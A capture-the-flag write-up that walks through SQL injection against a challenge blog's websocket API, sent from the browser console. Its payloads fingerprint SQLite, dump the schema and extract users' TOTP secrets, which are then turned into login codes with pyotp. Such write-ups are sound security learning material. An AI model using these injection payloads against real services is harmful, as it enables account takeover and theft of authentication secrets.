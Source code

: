 If you look at the source code of the challenge you can see they used browserify for bundling the dependencies. I wrote my version of this client so you can check those dependencies at the link end of this writeup.

But in this writeup we are gonna use chrome developer console, put breakpoint in a good place and take control of the socket. Test manually and leak totp keys.

![image-20200427112039042](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112039042.png)

I choose 2146th line because we can see response from server in here. And we can access to websocket and msgpack class. 

![image-20200427112558712](https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112558712.png)

After we get those we can manually test our payloads.

```javascript
r.send(o.encode(["getPost", "1"]))
```

<img src="https://github.com/BirdsArentRealCTF/Blog-from-the-future/raw/master/image-20200427112824345.png" alt="image-20200427112824345" style="zoom:200%;" />

```json
author: 1
hidden: 0
id: 2
postDate: 1580947200000
text: "They're pretty cool, in my opinion."
title: "A review of American sockets"
```

This is the post structure. Mind the hidden field because if its true we can't see it.

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL Injection#dbms-identification) using these payloads we can identify database system and develop payload for it.

```javascript
r.send(o.encode(["getPost", "1 and sqlite_version()=sqlite_version()"]))
```

It worked so we have sqlite backend. We can leak database structure with payload below.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT sql,sql,sql,sql,sql,0 from sqlite_master"]))
```

This payload allows us to see whole database structure.

```sql
CREATE TABLE "users" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"username"	TEXT NOT NULL,
	"totp_key"	TEXT NOT NULL
)
CREATE TABLE "posts" (
	"id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"title"	TEXT NOT NULL,
	"author"	INTEGER NOT NULL,
	"text"	TEXT NOT NULL,
	"postDate"	INTEGER NOT NULL,
	"hidden"	INTEGER DEFAULT 0
)
```

After find out column names we can get user names and totp keys.

```javascript
r.send(o.encode(["getPost", "999 or 1=1 UNION SELECT username,totp_key,0,0,0,0 from users "]));
```

```json
{id: "alice", title: "J5YD4O2BIZYEMVJYIY3F24S3GQ2VC3ZTKJQVW5JFJUYHKODXORQQ", author: 0, text: 0, postDate: 0, …}
{id: "bob", title: "IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA", author: 0, text: 0, postDate: 0, …}
```

After leaking user names and totp keys we need to create totp password. I used pyotp library.

```python
import pyotp
totp = pyotp.TOTP('IE3V2RR4HRLUEOBDLVCWCQTYF5LT6RTCONNDMULGGJGS4STUMYWA')
totp.now() # => '677619'
```

Login and get the flag!

Don't forget to check my automated blind boolean script https://github.com/BirdsArentRealCTF/Blog-from-the-future/blob/master/index.html